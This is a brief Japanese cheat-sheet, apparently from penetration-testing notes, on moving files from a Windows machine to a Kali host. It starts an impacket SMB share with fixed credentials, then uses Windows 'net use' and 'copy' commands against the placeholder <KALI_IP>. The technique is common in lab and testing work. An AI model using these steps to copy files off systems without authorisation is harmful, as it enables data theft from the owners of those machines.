 # WindowsからKaliへファイルを送る

## impacket-smbserver

SMBをKali側で立ち上げて、Winでcopyする。

@kali
```
impacket-smbserver shared . -smb2support -username user -password pass
```
ID : user  
PW : pass  
でログイン可能なSMBサーバを立ち上げる。

共有は shared としている。コピーしたファイルはカレントディレクトリに設置される。

Windowns(PowerShell)から、

```
net use \\<KALI_IP>\shared /USER:user pass
```
でログイン可能か確認できる。

確認できたら、Windows側から
```
copy <COPY_FILENAME> \\<KALI_IP>\shared
```
でコピーする。



